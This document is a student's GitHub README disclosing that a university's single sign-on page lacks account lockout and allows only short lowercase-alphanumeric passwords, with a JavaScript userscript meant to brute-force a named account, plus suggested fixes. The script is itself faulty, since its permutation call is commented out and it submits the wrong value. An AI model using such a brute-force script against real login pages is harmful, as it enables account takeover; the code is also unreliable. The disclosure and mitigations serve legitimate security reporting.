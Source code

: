 # Marist Login Script

## Daniel Gisolfi

#### Disclamer

I have no intention of exploiting this script in any way to login to another user`s account. I will only be using this on my own marist account to test the possibility of someone using this method to steal user information and logins.

### Issue Description

When loging onto marist services, the user is presented with a log on page working at the help desk I noticed a way to exploit the lack of an account lock in order to force log into any account. The current setup for a marist account login is not secure, a key reason for this the limted set of possible passwords a user can have. A marist account must be 6-8 characters long and contain only lower case letters with no special characters. All together this reduces the possible passwords to be comprised of only 36 characters (lowercase letters and numbers 0-9). As a result I have been able to write a script to brute force its way into an account due to the lack of a account lock when more than a few login attempts fail.

**LoginScript.js**

```javascript
// ==UserScript==
if (window.location == 'https://login.marist.edu/cas/login') {
    if(!document.getElementById('password').value){
        alert("Starting");
        var charset = "abcdefghijklmnopqrstuvwxyz0123456789";
        // permutations = permut(charset);
        for (var permutation of permutations){
            //Place password attempt in password textbox
            username = "stdg1";
            document.getElementById('username').value = username;
            document.getElementById('password').value = permutations;
            //Press the submit button
            document.getElementsByName('submit').click();
        }
    }
}

function permut(string) {
    if (string.length < 2) return string; //break condition
    var permutations = []; //array to hold permutations
    for (var i=0; i<string.length; i++) {
        var char = string[i];
        // Eliminate duplicates:
        if (string.indexOf(char) != i) // if char was used already
            continue;           // skip it this time
        var remainingString = string.slice(0,i) + string.slice(i+1,string.length);
        for (var subPermutation of permut(remainingString))
            permutations.push(char + subPermutation);
    }
    return permutations;
}
```



### Possible Solutions

1. Add a security measure to lock an account and require a password reset after x amount of login attempts
2. Increase the possible password character options to make a brute force method of cracking passwords far more difficult
3. Add a layer of detection to detect when a script is attempting to force its way into an account